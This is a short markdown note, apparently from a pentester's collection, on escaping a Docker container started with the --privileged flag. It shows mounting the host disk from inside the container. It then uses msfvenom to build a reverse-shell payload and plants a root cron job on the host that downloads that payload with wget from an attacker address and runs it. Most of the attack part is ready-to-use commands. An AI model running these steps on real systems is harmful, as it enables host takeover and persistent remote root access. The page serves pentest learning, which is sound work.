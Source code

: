 ```yaml
---
description: There are some docker escaping technics
---
```


# Docker Escape

### --privileged flag

#### Escape mounting the disk in the container

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation)

Well configured docker containers won't allow command like fdisk -l. However on miss-configured docker command where the flag --privileged is specified, it is possible to get the privileges to see the host drive.

```
root@test:/# fdisk -l
fdisk -l
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x16939df4

Device     Boot    Start      End  Sectors Size Id Type
/dev/sda1  *        2048 37750783 37748736  18G 83 Linux
/dev/sda2       37752830 41940991  4188162   2G  5 Extended
/dev/sda5       37752832 41940991  4188160   2G 82 Linux swap / Solaris

mkdir -p /mnt/root
mount /dev/sda1 /mnt/root
```

We can access the filesystem of the host as root user.

Ome the volume is mounted, we can create a cron job to get root shell.

```
$ msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=192.168.1.1 LPORT=443

echo '* * * * * root /bin/bash -c "/usr/bin/wget http://192.168.1.1/shell -O /tmp/shell && chmod 777 /tmp/shell && /tmp/shell"' > /mnt/root/snaps/gcron_enabled
```

*
